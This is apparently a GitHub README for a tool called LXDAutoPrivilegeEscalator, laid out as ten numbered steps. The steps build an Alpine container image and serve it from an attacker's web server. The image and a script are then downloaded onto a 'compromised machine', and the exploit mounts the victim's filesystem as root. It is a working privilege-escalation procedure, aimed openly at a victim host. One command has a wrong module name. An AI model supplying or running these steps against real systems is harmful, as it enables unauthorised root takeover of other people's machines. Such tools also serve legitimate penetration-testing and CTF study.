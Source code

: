 # 1- Clone this repo  git clone "https://github.com/CyberJunnkie/LXDAutoPrivilegeEscalator.git"

# 2- chmod +x install.sh 

# 3- run the install script to install alpine container
        
     ./install.sh

# 4- You will see a new directory named lxd-alpine-container

# 5- cd into it and you will see a tar file. Copy this file into the previous directory


# 6- Now host  a web server on the repo directory where you have your tar file and lxd.sh file

      python3 -m simple.http 80

# 7- Now on the compromised machine wget the both files as shown in demo video 


# 8- chmod +x lxd.sh

# 9- Now run the exploit as follows 
    
     ./lxd.sh <tarfile>


# 10- now just cd /mnt/root and you will have the entire filesystem of victim as root  
 
